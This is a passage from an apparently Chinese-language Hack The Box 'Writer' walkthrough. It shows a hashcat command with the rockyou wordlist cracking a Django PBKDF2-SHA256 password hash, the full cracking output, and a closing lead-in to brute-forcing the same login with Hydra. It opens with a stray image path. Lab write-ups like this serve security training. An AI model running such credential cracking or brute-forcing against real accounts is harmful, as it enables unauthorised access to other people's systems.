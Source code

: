哈希标识它的名称

启动 hashcat 和 rockyou:

```
┌──(root💀kali)-[~/htb/writer]
└─# hashcat hash.txt /usr/share/wordlists/rockyou.txt -m 10000        
hashcat (v6.1.1) starting...

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

<HIDDEN>

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Django (PBKDF2-SHA256)
Hash.Target......: pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8...uXM4A=
Time.Started.....: Thu Oct 14 22:06:04 2021 (1 min, 5 secs)
Time.Estimated...: Thu Oct 14 22:07:09 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      157 H/s (18.67ms) @ Accel:256 Loops:512 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10240/14344385 (0.07%)
Rejected.........: 0/10240 (0.00%)
Restore.Point....: 9216/14344385 (0.06%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:259584-259999
Candidates.#1....: rubberducky -> 1asshole

Started: Thu Oct 14 22:04:54 2021
Stopped: Thu Oct 14 22:07:09 2021
```

几分钟后我们得到了凯尔的密码。

# 容易的道路

我们不需要费那么大力气去获取凯尔的密码，我们可以直接强行破解。下面是我在演练开始时设置 Hydra 的情况:
